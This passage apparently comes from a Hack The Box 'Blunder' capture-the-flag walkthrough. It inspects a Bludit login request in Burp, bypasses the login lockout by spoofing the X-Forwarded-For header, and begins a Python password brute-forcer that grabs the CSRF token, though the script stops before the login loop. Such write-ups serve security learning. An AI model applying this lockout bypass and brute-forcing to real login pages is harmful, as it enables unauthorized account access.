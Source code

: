 First, we need a request from burp with a login attempt, to see how it's built

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2009:25:12.png)

We see that we have `csrfTOKEN` on it, and cookie, so we need to grab then.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2009:33:41.png)

Let's send to repeater and minimize it, to be better to send over the python script.

We get the error message when the password is incorret.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2009:36:56.png)

If we try many times, we get blocked, as the blog said

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2009:38:02.png)

Fine, let's try to see if our **X-FORWARDED-FOR**

We send a new request to the server, set it to Repetaer and add the **X-FORWARDED-FOR** on the header, and see that it works!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2009:39:29.png)

We get smaller request, so it's better to work

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2009:43:03.png)

Now we mount our python script to bruteforce the user password

user_brute.py

```py
#!/usr/bin/python3
# Date: 2021-09-02
# Exploit Author: 0x4rt3mis
# Hack The Box - Blunder

import argparse
import requests
import sys
import os

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# First, we need to get the CSRFToken
def getCSRFToken(rhost):
    # Make csrfMagicToken global
    global csrf_token
    # Make the request to get csrf token
    csrf_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = csrf_page.text.find("tokenCSRF")
    # Get only the csrfMagicToken in it
    csrf_token = csrf_page.text[index:index+128].split('"')[4]
    if csrf_token:
        return csrf_token
    else:
        print("[+] Cannot get the CSRF_TOKEN[+]")
        exit
    
# Now we make the login requests
```